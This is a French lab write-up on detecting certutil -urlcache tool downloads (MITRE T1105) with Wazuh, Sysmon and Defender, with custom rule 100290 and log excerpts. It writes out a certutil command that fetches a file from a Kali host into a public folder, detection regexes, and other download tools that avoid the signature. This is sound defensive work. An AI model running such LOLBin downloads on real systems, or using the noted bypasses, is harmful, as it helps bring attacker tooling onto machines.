

# Writeup 24 : téléchargement d'outil par certutil, bloqué par Defender mais invisible pour Wazuh (T1105)

> Scénario 13, joué le 2026-10-29. Depuis Windows 11, `certutil -urlcache` télécharge un
> « outil » hébergé sur Kali : c'est la façon classique de faire entrer un binaire avec un
> utilitaire Windows signé (LOLBin). Trois constats en chaîne. **Defender bloque** la commande
> avant même le lancement de certutil, donc **Sysmon ne voit rien** et la règle native prévue
> (92075) ne peut pas sonner. **Wazuh ne reçoit pas le blocage** : le canal Defender n'était
> pas collecté. Une fois le canal ajouté, la native 62123 sonne, mais **avec une description
> vide et sans MITRE**. Résultat : canal collecté, règle locale **100290** (niveau 12, T1105).
> La tactique Command and Control passe de « simulé » à **validé en live**.
>
> Versions : Wazuh 4.14.9, Windows 11 en français (Defender plateforme 4.18.26100.4, veille
> 1.463.24.0), Sysmon v15.22, Kali `10.10.20.10`.

## 1. Comprendre

**T1105** *Ingress Tool Transfer* (tactique Command and Control, TA0011) : l'attaquant fait
venir sur le poste un outil depuis son infrastructure. `certutil.exe`, outil de gestion de
certificats livré avec Windows, sait télécharger une URL (`-urlcache -split -f`) : un binaire
signé Microsoft qui fait le travail d'un téléchargeur.
Sources : https://attack.mitre.org/techniques/T1105/, https://lolbas-project.github.io/lolbas/Binaries/Certutil/

Jusqu'ici, T1105 n'était couvert que par le [scénario 3](09-scenario-fim-virustotal.md) :
fichier EICAR écrit **localement**, résultat d'un transfert simulé
([mitre.md § 3](../mitre.md)). Ce scénario joue le transfert réseau réel.

## 2. Préparer : quelle règle doit sonner ?

Recherche dans le ruleset natif (`/var/ossec/ruleset/rules/0800-sysmon_id_1.xml`) : la
**92075** (niveau 12, T1105) vise exactement ce cas.

```xml
<rule id="92075" level="12">
  <if_group>sysmon_event1</if_group>
  <field name="win.eventdata.originalFileName" type="pcre2">(?i)certutil\.exe</field>
  <field name="win.eventdata.commandLine" type="pcre2">(?i)\-urlcache.+\.(dll|exe)</field>
  ...
```

Elle exige un **processus créé** (Sysmon EID 1) avec un `.dll` ou `.exe` dans la ligne de
commande. Plan : valider la native plutôt qu'écrire une règle.

Préparation (lab uniquement) : sur Kali, un fichier texte inoffensif nommé `outil.exe`, servi en
HTTP. Il n'est jamais exécuté.

```bash
mkdir -p ~/c2 && cd ~/c2 && echo "fichier de test lab" > outil.exe && python3 -m http.server 8000
```

## 3. Premier essai : Defender bloque, Wazuh ne sait rien

Sur Windows 11 (PowerShell administrateur) :

```powershell
certutil.exe -urlcache -split -f http://10.10.20.10:8000/outil.exe C:\Users\Public\outil.exe
```

Résultat : `Le programme « certutil.exe » n'a pas pu s'exécuter : Accès refusé`. Aucune requête
côté Kali.

Journal `Microsoft-Windows-Windows Defender/Operational` (`Get-WinEvent`) :

| Heure locale | Event | Contenu |
|---|---|---|
| 17:06:38 | **1116** détection | `Trojan:Win32/Ceprolad.A`, gravité Grave, chemin `CmdLine:_C:\Windows\System32\certutil.exe -urlcache …`, nom du processus **Unknown** |
| 17:06:58 | **1117** action | menace supprimée |

Defender juge **la ligne de commande**, avant le démarrage du processus (« Unknown »). Déduction,
cohérente avec le message « Accès refusé » : **pas de processus, donc pas de Sysmon EID 1**, donc
la 92075 ne peut pas sonner.

Côté Wazuh : **0** alerte « Ceprolad », **0** ligne dans `archives.json`, aucune 92075.
**L'EDR a arrêté l'attaque, le SIEM n'en a rien su.**

Cause : la configuration centralisée
([`configs/manager/shared/default/agent.conf`](../../configs/manager/shared/default/agent.conf))
ne collectait que Sysmon. Le canal Defender figurait dans nos extraits
([`configs/agent-windows/ossec-localfiles.xml`](../../configs/agent-windows/ossec-localfiles.xml)),
mais n'avait jamais été appliqué sur la VM. Rappel de la règle du dépôt : un extrait versionné
n'est pas une configuration en place.

## 4. Collecter le canal Defender

Sur le manager, ajout dans `/var/ossec/etc/shared/default/agent.conf` (après sauvegarde) :

```xml
<localfile>
  <location>Microsoft-Windows-Windows Defender/Operational</location>
  <log_format>eventchannel</log_format>
</localfile>
```

`/var/ossec/bin/verify-agent-conf` → `OK`. L'agent récupère le fichier (vérifié dans
`C:\Program Files (x86)\ossec-agent\shared\agent.conf`), puis `Restart-Service WazuhSvc` pour
l'appliquer sans attendre.

Deuxième essai, même commande, même blocage. Côté Wazuh :

| Heure (UTC) | Règle native | Niveau | Description |
|---|---|---|---|
| 16:11:38 | 62123 (event 1116) | 12 | `Windows Defender: Antimalware platform detected  potentially unwanted software ()` |
| 16:11:56 | 62124 (event 1117) | 3 | `… performed an action to protect you from potentially unwanted software ()` |

Le blocage est visible. Deux défauts pour l'analyste : **description vide** et **pas de MITRE**.

Piège rencontré au passage : chercher « ceprolad » dans `alerts.json` remonte aussi nos propres
commandes `sudo grep ceprolad`, journalisées par la règle 5402. Filtrer `"id":"5402"`.

## 5. Pourquoi la description est vide

Règle native, `ruleset/rules/0600-win-wdefender_rules.xml` (Wazuh v4.14.0) :

```xml
<description>Windows Defender: Antimalware platform detected $(win.eventdata.severityName)
  potentially unwanted software ($(win.eventdata.processName))</description>
```

Champs réellement reçus de ce Defender (extrait de l'alerte) :

```json
"threat Name": "Trojan:Win32/Ceprolad.A",
"severity Name": "Grave",
"process Name": "Unknown",
"path": "CmdLine:_C:\\Windows\\System32\\certutil.exe -urlcache -split -f http://10.10.20.10:8000/outil.exe C:\\Users\\Public\\outil.exe",
```

La règle lit `severityName`, l'événement fournit `severity Name` (avec une espace) : les champs
ne correspondent pas, la description reste vide. **Vérifié** sur ces deux sources. Pourquoi les
noms diffèrent (version de Defender, rendu de l'événement) n'est pas établi : à valider.
Source : https://github.com/wazuh/wazuh/blob/v4.14.0/ruleset/rules/0600-win-wdefender_rules.xml

## 6. La règle 100290

Enfant de 62123, sur `path` (nom sans espace, donc fiable) :

```xml
<rule id="100290" level="12">
  <if_sid>62123</if_sid>
  <field name="win.eventdata.path" type="pcre2">(?i)certutil\.exe.*-urlcache</field>
  <description>Defender a bloque un telechargement d'outil par certutil -urlcache (T1105) : $(win.eventdata.path)</description>
  <options>no_full_log</options>
  <mitre><id>T1105</id></mitre>
</rule>
```

Versionnée dans [`configs/manager/local_rules.xml`](../../configs/manager/local_rules.xml).
Ajout en live : sauvegarde, `tee -a`, `wazuh-analysisd -t` sans erreur, redémarrage, `active`.

Troisième essai, résultat :

```
2026-10-29T16:15:17.009+0000 100290 12 ['T1105'] Defender a bloque un telechargement d'outil par certutil -urlcache (T1105) : CmdLine:_C:\\Windows\\System32\\certutil.exe -urlcache -split -f http://10.10.20.10:8000/outil.exe C:\\Users\\Public\\outil.exe
2026-10-29T16:15:17.026+0000 100290 12 ['T1105'] (idem)
```

L'analyste lit directement l'outil, la source (`10.10.20.10`) et la destination sur le disque.



## 7. Résultats dans notre lab

| Essai | Côté poste | Côté Wazuh |
|---|---|---|
| 1, canal Defender non collecté | Defender bloque (1116 + 1117), certutil ne démarre pas | **rien** (0 alerte, 0 archive), pas de 92075 |
| 2, canal collecté | idem | 62123 (12) + 62124 (3), description vide, sans MITRE |
| 3, avec 100290 | idem | **100290** (12, T1105), commande complète dans la description |

## 8. Limites et suites

- **Détection conditionnée au blocage.** 100290 repose sur Defender. Si Defender est désactivé
  ou contourné, certutil démarre, et c'est la native **92075** (Sysmon) qui doit prendre le
  relais : non testée ici, car impossible sans désactiver Defender (à valider sur un snapshot
  dédié).
- **92075 ne voit que `.dll`/`.exe`.** Un téléchargement de `.txt`, `.ps1` ou d'un binaire
  renommé lui échappe (déduit de la regex).
- **Un seul LOLBin.** `bitsadmin`, `Invoke-WebRequest`, `curl.exe` font la même chose sans
  déclencher la signature Ceprolad (déduit).
- **Deux alertes 100290** pour une tentative : Defender émet deux 1116 (deux formes de la
  ligne de commande, cf. `Resources` de `Get-MpThreatDetection`).
- `archives.json` n'a renvoyé aucune ligne Defender même après correction (compteur à 0
  alors que les alertes existent) : non expliqué, à vérifier (`logall_json` toujours actif ?).

## 9. Lien SOC

1. **Un blocage EDR non remonté est un angle mort** : l'attaquant réessaie ailleurs, l'équipe ne
   le sait pas. Collecter les journaux de l'antivirus fait partie de la couverture.
2. **Vérifier la configuration en place**, pas celle du dépôt.
3. **Lire les champs réels avant de faire confiance à une règle native** : ici, un décalage de
   nom de champ vide la description.
